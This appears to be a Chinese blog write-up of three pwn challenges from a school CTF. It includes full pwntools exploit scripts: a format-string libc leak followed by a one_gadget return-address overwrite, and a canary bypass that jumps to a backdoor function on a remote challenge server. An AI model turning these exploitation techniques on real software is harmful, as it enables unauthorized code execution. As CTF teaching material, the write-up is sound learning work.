 ```yaml
---
title: 校赛的几道题
date: 2020-06-04 16:27:00
tags:
  - wp
categories:
  - pwn
---
```

>校赛结束了，PWN题就做出来一个贼简单的题，羞愧，反省ing

### pwn1
这道题直接nc，然后ls，cat flag就出来了</br>
![pwn1](pwn1.png)
### pwn2
放到ida里面看一下，就几行代码，看起来貌似很简单的亚子（并不）</br>
![pwn2](pwn2-1.png)
</br>没有后门函数，我就想到了泄露libc,但没想到会涉及到onegadget(我知道它，但我不知道什么时候用，比如这次)</br>
</br>因为要泄露libc就要想到公式：A真实地址-A的偏移地址 = B真实地址-B的偏移地址 = 基地址！那我们就要找到函数的偏移地址，先泄露函数的真实地址</br>
</br>
```
from pwn import*

c = process('./22')

elf = ELF('./22')
read_got = elf.got['read']
payload= '%9$saaaa'+p64(read_got) #偏移是%8，又加上'aaaa'所以这里写为%9
c.sendline(payload)
read_addr=u64(c.recvuntil('aaaa')[:-4].ljust(8,'\x00'))
print(hex(read_addr))
c.interactive()
```
![pwn2](pwn2-2.png)
</br>然后介绍一个网页[libc database search](https://libc.blukat.me/)可以查找函数的偏移地址</br>
![pwn2](pwn2-3.png)
</br>之后我们需要将read_got写到栈上，而基址=_read地址-偏移地址
</br>找one_gadget的偏移地址（查看libc版本 ldd xxx)
</br>![pwn2](pwn2-4.png)
</br>exp如下（参考了lxy大佬的）
```
from pwn import *
c = process('./22')
elf = ELF('./22')

read_got = elf.got['read']
payload = '%9$saaaa'+p64(read_got)
c.sendline(payload)
read_addr=u64(c.recvuntil('aaaa')[:-4].ljust(8,'\x00')) #泄露read函数地址
libcbase=read_addr-0xf7250

payload='x%pbbbb'
c.sendline(payload)
c.recvuntil('x')
stack_addr=int(c.recvuntil('bbbb')[:-4],16)
ret_addr=stack_addr+0x118 #buf处在栈上偏移为0x110+0x8

one=0xf1147 #见图pwn2-4.png
one_addr=one+libcbase

print(hex(read_addr))
print(hex(one_addr))
print(hex(ret_addr))

payload='%'+str(one_addr&0xff)+'d'+'%10$lln'+(7-len(str(one_addr&0xff)))*'c'+p64(ret_addr)
c.sendline(payload) #一次覆盖一字节

sleep(1)
payload='%'+str((one_addr&0xff00)>>8)+'d'+'%10$lln'+(7-len(str((one_addr&0xff00)>>8)))*'d'+p64(ret_addr+1)
c.sendline(payload)

sleep(1)
payload='%'+str((one_addr&0xff0000)>>16)+'d'+'%10$lln'+(7-len(str((one_addr&0xff0000)>>16)))*'e'+p64(ret_addr+2)
c.sendline(payload)

sleep(1)
payload='%'+str((one_addr&0xff000000)>>24)+'d'+'%10$lln'+(7-len(str((one_addr&0xff000000)>>24)))*'f'+p64(ret_addr+3)
c.sendline(payload)

sleep(1)
payload='%'+str((one_addr&0xff00000000)>>32)+'d'+'%10$lln'+(7-len(str((one_addr&0xff00000000)>>32)))*'g'+p64(ret_addr+4)
c.sendline(payload)
#需覆盖的地址一共6字节
sleep(1)
c.sendline('a\x00')
sleep(1)
c.sendline('a\00') #发送两次水循环
c.interactive()

```

### pwn3
放在ida里面看一下，就几行代码</br>
![pwn3](pwn3-1.png)
</br>还能找到后门函数</br>
![pwn3](pwn3-3.png)
</br>去看了一下v2,v3</br>
![pwn3](pwn3-2.png)
</br>我当时看保护的时候，没看到cannary，然后我就直接想把v2地址覆盖掉，但发现不行，然后我怀疑是循环的问题，我就谷歌，巴巴巴巴，发现还是没用，害，心态都崩了。
</br>最后在zyf大佬的指点下，原来还是有cannary,我们只要把v2改成0x40就可以绕过cannary(呜呜呜呜呜呜果然还是我还是太笨)</br>
</br>
```
from pwn import *
context.log_level = 'debug'
c = remote('49.235.243.206',10503)
#c = process('./33')
#gdb.attach(c)

sysaddr = 0x004007FB


payload = ''
payload +=p64(sysaddr)
c.send('a'*0x20)
sleep(1)
c.send(p64(0x40))
sleep(1)
c.sendline(payload)
c.interactive()
```